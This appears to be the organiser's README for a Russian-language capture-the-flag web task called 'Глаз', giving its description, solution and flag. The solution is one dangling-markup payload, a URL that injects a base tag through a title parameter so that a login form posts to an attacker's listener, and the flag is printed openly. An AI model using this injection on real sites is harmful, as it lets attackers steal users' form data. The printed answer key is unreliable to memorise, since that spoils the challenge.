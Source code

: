 # Глаз
## Сложность
Medium

## Описание
В расследовании недавнего преступления мы опробовали нашу новейшую автоматизированную информационную систему розыска преступников "Глаз". Работает как часы, но вот название так себе, правда? Там сейчас как принимают предложения о новом названии, может поучаствуешь?

**!Участникам нужно выдать содержимое папки prod!**

## Решение:
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection#stealing-forms  
Скормить черкеру ссылку такого вида:  
`http://taskurl:8081/login?title=<base href="your_listener_url">`



## Флаг
CTF{D4ngl1ng_M4rkup_Inj3ct10n}

